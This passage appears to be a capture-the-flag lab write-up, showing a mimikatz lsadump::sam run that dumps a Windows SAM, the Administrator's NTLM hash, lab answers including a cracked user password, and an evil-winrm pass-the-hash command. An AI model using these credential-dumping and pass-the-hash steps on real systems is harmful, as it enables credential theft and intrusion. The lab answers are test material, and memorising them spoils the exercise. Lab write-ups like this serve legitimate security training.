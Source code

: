 command: lsadump::sam

## Near the top of the results you will see the Administrator's NTLM hash:

## that is in my case 

$ mimikatz # lsadump::sam

Domain : GIT-SERV
SysKey : 0841f6354f4b96d21b99345d07b66571
Local SID : S-1-5-21-3335744492-1614955177-2693036043

SAMKey : f4a3c96f8149df966517ec3554632cf4

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1

##

Q3) What is the Administrator password hash?
A) 37db630168e5f82aafa8461e05c6bbd1

Q4) What is the NTLM password hash for the user "Thomas"?
A)  02d90eda8f6b6b06c32d5f207831101f

Q5) What is Thomas' password?
A) i<3ruby


## 

In the real world this would be enough to obtain stable access; however, in our current environment, the new account will be deleted if the network is reset.

For this reason you are encouraged to to use the evil-winrm built-in pass-the-hash technique using the Administrator hash we looted.

To do this we use the -H switch instead of the -p switch we used before.

For example:

command: evil-winrm -u Administrator -H ADMIN_HASH -i IP



======================================================================================================================================================

## Aghh That's it From now on you have to do it on your on.Doing all that give me so pain so i ignore making writeup and complete the room so if you need help from there 
so DM me on Discord.
